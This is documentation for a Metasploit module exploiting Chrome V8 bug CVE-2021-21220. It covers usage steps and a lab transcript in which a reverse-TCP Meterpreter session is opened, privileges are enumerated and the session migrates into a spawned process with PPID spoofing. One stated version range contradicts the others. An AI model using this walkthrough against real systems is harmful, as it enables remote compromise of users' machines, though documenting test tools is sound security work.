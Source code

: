 ## Vulnerable Application

This module exploits CVE-2021-21220 an out of bounds access issue in Google Chrome versions before
89.0.4389.128/90.0.4430.72 (64 bit) that was reported as part of Pwn2Own 2021 by Bruno Keith and
Niklas Baumstark of Dataflow Security.

The exploit takes advantage of a lack of proper input validation in the V8 engine on x86_x64 builds
of Chrome when handling XOR operations within JIT compiled code. Successful exploitation leads to RCE execution
within the context of the V8 renderer.

Note that as the V8 renderer is sandboxed within typical Chrome setups, the browser must be run without a sandbox by using
the --no-sandbox option for the payload to work correctly.

The module is compatible with any 64bit Google Chrome (versions before 87.0.4280.88) on multiple platforms.
However, the code that writes the shellcode into the rwx region (wasm_rwx_addr) may need to be modified.

**Vulnerable Application Installation Steps**

You can download a vulnerable Chrome version from this location:
[https://chromium.cypress.io/win64/beta/90.0.4430.70](https://chromium.cypress.io/win64/beta/90.0.4430.70)

## Verification Steps

1. Do: `use exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation`
2. Do: `set URIPATH / [PATH]`
3. Do: `set LHOST [IP]`
4. Do: `set SRVHOST [IP]`
5. Do: `exploit`

## Options
None

## Scenarios

### Windows 10 and Google Chrome 90.0.4430.0 with --no-sandbox

Start Google Chrome without a sandbox, e.g:
`"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --no-sandbox`

```
msf6 > use exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > set TARGET 1
TARGET => 1
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > show options

Module options (exploit/multi/browser/chrome_cve_2021_21220_v8_insufficient_validation):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local mac
                                       hine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.17.233.206   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows 10 - Google Chrome < 89.0.4389.128/90.0.4430.72 (64 bit)


msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) >
[*] Started reverse TCP handler on 172.17.233.206:4444
[*] Using URL: http://0.0.0.0:8080/F6htJoKY5li
[*] Local IP: http://172.17.233.206:8080/F6htJoKY5li
[*] Server started.
[*] 172.17.236.178   chrome_cve_2021_21220_v8_insufficient_validation - Sending /F6htJoKY5li to Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.0 Safari/537.36
[*] Sending stage (200262 bytes) to 172.17.236.178
[*] Meterpreter session 1 opened (172.17.233.206:4444 -> 172.17.236.178:65165) at 2021-04-27 13:19:35 -0500

msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/browser/chrome_cve_2021_21220_v8_insufficient_validation) > use post/windows/manage/migrate
msf6 post(windows/manage/migrate) > show options

Module options (post/windows/manage/migrate):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   KILL       false            no        Kill original process for the session.
   NAME                        no        Name of process to migrate to.
   PID        0                no        PID of process to migrate to.
   PPID       0                no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
                                         .
   PPID_NAME                   no        Name of process for PPID spoofing when creating a new process.
   SESSION                     yes       The session to run this module on.
   SPAWN      true             no        Spawn process to migrate to. If set, notepad.exe is used.

msf6 post(windows/manage/migrate) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/migrate) > run

[*] Running module against DESKTOP-KUO5CML
[*] Current server process: chrome.exe (10116)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 8732
[+] Successfully migrated into process 8732
[*] Post module execution completed
msf6 post(windows/manage/migrate) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getpid
Current pid: 8732
meterpreter > getuid
Server username: DESKTOP-KUO5CML\test
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-KUO5CML
OS              : Windows 10 (10.0 Build 19041).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```
